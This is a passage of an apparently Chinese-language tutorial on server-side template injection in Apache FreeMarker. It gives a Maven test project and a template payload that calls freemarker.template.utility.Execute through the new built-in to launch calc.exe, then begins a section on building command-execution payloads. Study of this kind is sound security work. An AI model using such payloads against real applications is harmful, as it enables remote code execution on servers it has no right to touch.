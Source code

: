 ```java
    }
}
```

pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>freemarker_test</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>org.freemarker</groupId>
            <artifactId>freemarker</artifactId>
            <version>2.3.9</version>
        </dependency>
        <dependency>
            <groupId>org.python</groupId>
            <artifactId>jython-standalone</artifactId>
            <version>2.7.2</version>
        </dependency>
    </dependencies>
</project>
```



test.ftl

```java
${"freemarker.template.utility.Execute"?new()("calc.exe")}
```

---

### 三、使用内置函数构造命令执行



**FreeMarker高级内置函数**

参考：[https](https://freemarker.apache.org/docs/ref_builtins_expert.html)[://freemarker.apache.org/docs/ref_builtins_expert.html](https://freemarker.apache.org/docs/ref_builtins_expert.html)

其中， new函数创建一个继承 freemarker.template.TemplateModel 类的变量。



**构造Payload方法一(适用于各种版本，如2.3.9、2.3.17、2.3.30)**
